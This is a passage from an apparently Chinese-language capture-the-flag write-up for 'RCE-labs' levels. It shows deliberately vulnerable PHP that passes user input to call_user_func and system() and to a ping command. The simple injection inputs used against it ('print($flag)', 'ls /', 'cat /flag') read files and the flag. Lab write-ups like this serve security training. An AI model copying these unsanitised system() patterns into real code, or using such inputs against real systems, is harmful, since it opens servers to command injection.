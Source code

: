 在start函数中调用了get_fun函数和hello_ctf函数  并且最后一句代码中调用了start函数 当以get方式上传参数action为r重置当前选中的函数 上传为submit可以接着以post方式上传参数content来作为随机生成函数的参数

```python
?action=submit
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736992806636-a7dc74c9-5ee2-456b-8d02-6a6f078d296c.png)

随机生成的函数是call_user_func() 于是我们接着上传参数content

```python
content=print($flag)
```

得到flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736992918250-d9c23f0f-3f73-4abe-a42b-376d7bb9ae65.png)

### [RCE-labs]Level 3 - 命令执行
```python
<?php 
system($_POST['a']);

highlight_file(__FILE__);


?>
```

发现可以命令执行的system函数 先列出更目录下的文件

```python
a=ls /
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736995486303-ce816766-06af-4077-b44e-2e1ce2f60479.png)

发现flag 于是利用cat读取flag

```python
a=cat /flag
```

得到flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736995548217-9be721bb-4bb3-4e1d-adaf-3289e288bc8d.png)

### [RCE-labs]Level 4 - SHELL 运算符
```python
<?php
function hello_server($ip){
    system("ping -c 1 $ip");
}

isset($_GET['ip']) ? hello_server($_GET['ip']) : null;

highlight_file(__FILE__);


?>
```
